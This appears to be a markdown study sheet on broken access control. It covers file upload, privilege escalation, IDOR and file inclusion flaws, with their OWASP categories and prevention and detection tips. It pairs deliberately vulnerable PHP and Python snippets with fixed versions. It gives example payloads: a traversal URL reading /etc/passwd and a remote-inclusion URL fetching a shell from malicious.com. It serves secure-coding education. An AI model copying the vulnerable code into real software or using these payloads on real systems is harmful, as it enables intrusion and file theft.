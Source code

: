 # 1. Broken Access Control:
- Flaws that `allow unauthorized users to access restricted resources.`
- OWASP Category: `A01:2021 - Broken Access Control`
- Preventions: Implement proper `role-based access control (RBAC)` and ensure `authorization checks` are enforced on both client and server sides.

# 2. File Upload Vulnerability:
- `Weaknesses in file upload functionality that allow unauthorized file types or content.`
- OWASP Category: `A01:2021 - Broken Access Control / A08:2021 - Software and Data Integrity Failures`
- Preventions: `Validate file types`, use secure file handling functions, and `scan uploaded files` for malicious content.
- Detection/Testing Methods: Penetration testing, `file type and size validation checks`, and malware scanning.
```
# Vulnerable file upload
if request.method == 'POST':
    file = request.files['file']
    file.save('/uploads/' + file.filename)


# Secure file upload
if request.method == 'POST':
    file = request.files['file']
    if file.content_type in ['image/jpeg', 'image/png']:
        file.save('/uploads/' + secure_filename(file.filename))

```

# 4. Privilege Escalation:
- Exploiting vulnerabilities `to gain higher privileges than intended.`
- OWASP Category: `A01:2021 - Broken Access Control`
- Preventions: Implement `least privilege principle`, conduct `regular audits`, and ensure `proper validation of user roles and permissions.`
- Detection/Testing Methods: Penetration testing, privilege escalation testing, and `reviewing user role assignments.`

# 5. Insecure Direct Object References (IDOR):
- Flaws that `allow unauthorized access to objects by modifying references.`
- OWASP Category: `A01:2021 - Broken Access Control`
- Preventions: `Validate object references, implement proper access controls`.
- Detection/Testing Methods: `Parameter manipulation testing, access control verification, and code reviews.`

```
# Vulnerable IDOR
document = get_document(request.args['doc_id'])

# Secure IDOR
document = get_document(request.args['doc_id'])
if not user_has_access(document):
    abort(403)
```

# 6. File Inclusion (Local and Remote):
- File Inclusion vulnerabilities `allow an attacker to include files from the server (Local File Inclusion, LFI) or from remote servers (Remote File Inclusion, RFI)` into the executed script.
- OWASP Category: `A01:2021 - Broken Access Control / A08:2021 - Software and Data Integrity Failures`
- Local File Inclusion (LFI): This allows an attacker to include files from the local server. Eg. `http://example.com/index.php?page=../../../../etc/passwd`
- Remote File Inclusion (RFI): This allows an attacker to include files from a remote server. Eg. `http://example.com/index.php?page=http://malicious.com/shell`

```
// Vulnerable to LFI and RFI
$page = $_GET['page'];
include($page . '.php');

// Secure file inclusion using a whitelist
$allowed_pages = ['home', 'about', 'contact'];
$page = $_GET['page'];

if (in_array($page, $allowed_pages)) {
    include($page . '.php');
} else {
    // Handle unauthorized access
    echo 'Access denied!';
}
// Only files that are explicitly listed in the $allowed_pages array can be included. This prevents an attacker from including arbitrary files.
```

### Prevention:
- `Whitelist Files`: Only allow specific files to be included by using a whitelist of allowed file names.
- Sanitize Input: Always `sanitize and validate user input` to ensure it does not contain malicious characters or paths.
- `Disable Remote` File Inclusion: Ensure that allow_url_include is disabled in your PHP configuration to prevent RFI.
- `Use Static File Paths:` Avoid dynamic inclusion of files based on user input. Use static file paths wherever possible.

### Detection/Testing Methods:
- Static Code Analysis, Dynamic Analysis, Manual Testing.

## Common Detection Techniques
1. `Penetration Testing`:
- Conduct regular penetration tests to identify and exploit broken access control vulnerabilities.
- Use both manual and automated testing tools to ensure comprehensive coverage.

2. `Static Code Analysis`:
- Use static analysis tools to scan the codebase for access control flaws and misconfigurations.
- Review access control logic and implementation during code reviews.

3. `Dynamic Analysis`
- Employ dynamic analysis tools to simulate attacks and identify runtime access control vulnerabilities.
- Test for unauthorized access to resources and functionalities.

4. `Manual Testing`
- Manually test the application by manipulating URLs, parameters, and sessions to bypass access controls.
- Verify that access control mechanisms are correctly implemented and enforced.

4. `Log Monitoring and Analysis`
- Monitor application logs for signs of unauthorized access attempts and anomalies.
- Implement alerting mechanisms to detect and respond to suspicious activities.

5. `Security Audits and Reviews`
- Conduct regular security audits and reviews of access control mechanisms.
- Engage third-party security experts to perform independent assessments.

6. `Automated Scanners`
- Use automated security scanners to detect common access control vulnerabilities.
- Regularly run scans to identify new vulnerabilities introduced by code changes.

### Common Prevention Techniques
1 . `Implement Role-Based Access Control (RBAC)`
- Define and enforce user roles with specific permissions.
- Ensure that users can only access resources and functionalities that match their roles.

2. `Use Secure Frameworks and Libraries`
- Utilize frameworks and libraries that provide built-in access control mechanisms.
- Regularly update and patch these frameworks to mitigate new vulnerabilities.

3. `Validate Access on the Server-Side`
- Perform access control checks on the server-side to prevent clients from bypassing them.
- Avoid relying solely on client-side access control.

4. `Enforce Principle of Least Privilege`
- Grant users the minimum level of access required to perform their tasks.
- Regularly review and adjust permissions as needed.
  
5. `Use Indirect Object References`
- Implement indirect references (e.g., mapping IDs) instead of exposing direct object references.
- Validate access to the mapped objects on the server-side.

6. `Implement Secure Coding Practices`
- Use parameterized queries to avoid injection attacks that could bypass access controls.
- Sanitize and validate all user inputs.

7. `Utilize Access Control Lists (ACLs)`
- Define and maintain ACLs to specify access permissions for resources.
- Ensure ACLs are up-to-date and accurately reflect the required access controls.

8. `Regularly Audit and Monitor Access Controls`
- Conduct regular audits of access control mechanisms and permissions.
- Implement logging and monitoring to detect and respond to unauthorized access attempts.
